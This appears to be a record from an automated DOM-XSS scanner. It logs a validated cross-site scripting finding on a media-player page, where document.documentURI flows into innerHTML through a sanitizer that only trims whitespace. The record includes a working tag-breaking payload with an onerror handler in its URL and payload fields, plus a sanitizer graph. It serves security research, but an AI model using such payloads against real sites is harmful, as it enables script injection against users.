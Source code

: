 // Finding: b7720ea4-5d95-4824-b9db-925735ec0201
// Finding.url: https://www.example117.com/play/p8165/linha-da-frente##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('dd87070b4ef0432fb96cb109fd3d9a08')><!--/*
// Finding.parentloc: https://www.example117.com/play/p8165/linha-da-frente##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('dd87070b4ef0432fb96cb109fd3d9a08')><!--/*
// Finding.domain: www.example117.com
// Finding.base_domain: example117.com
// Finding.source: document.documentURI
// Finding.sink: innerHTML
// Sanitizer.score: 2
// Sanitizer.name: o/<
// Sanitizer.location: https://www.example117.com/common/player/build/rtp-player.min.js?v=20210422-1526 - o/<:7:640562
// Finding.begin: 216
// Finding.end: 392
// Finding.original_uuid: 79808d53-73c9-4b15-a4f7-a361814a9dd0
// Finding.TwentyFiveMillionFlowsId: 1611337884
// Finding.script: https://www.example117.com/common/player/build/rtp-player.min.js?v=20210422-1526
// Finding.line: 7
// Exploit.uuid: dd87070b-4ef0-432f-b96c-b109fd3d9a08
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: value
// Exploit.quote_type: "
// Exploit.tag: input
// Exploit.break_out: #"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: #"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 45
// Exploit.replace_begin_url: 45
// Exploit.replace_end_url: 45
// Exploit.replace_begin_param: 261
// Exploit.replace_end_param: 261
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -1430064086
// DepGraph.sanitizer_hash: -1430064086

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="str_replace_once"];
n2 [shape=box, label="RegExp: /^[	\n\r Â áš€â€€â€â€‚â€ƒâ€„â€…â€†â€‡â€ˆâ€‰â€Šâ€¯âŸã€€\u2028\u2029﻿][	\n\r Â áš€â€€â€â€‚â€ƒâ€„â€…â€†â€‡â€ˆâ€‰â€Šâ€¯âŸã€€\u2028\u2029﻿]*/"];
n3 [shape=box, label="Lit: "];
n4 [shape=box, label="Var: x"];
n5 [shape=ellipse, label="str_replace_once"];
n6 [shape=box, label="RegExp: /[	\n\r Â áš€â€€â€â€‚â€ƒâ€„â€…â€†â€‡â€ˆâ€‰â€Šâ€¯âŸã€€\u2028\u2029﻿][	\n\r Â áš€â€€â€â€‚â€ƒâ€„â€…â€†â€‡â€ˆâ€‰â€Šâ€¯âŸã€€\u2028\u2029﻿]*$/"];
n7 [shape=box, label="Lit: "];
n8 [shape=box, label="Var: x"];
n9 [shape=box, label="Var: x"];
n10 [shape=doubleoctagon, label="Return: x"];
n4 -> n0;
n1 -> n2;
n1 -> n3;
n1 -> n4;
n8 -> n1;
n5 -> n6;
n5 -> n7;
n5 -> n8;
n9 -> n5;
n10 -> n9;
}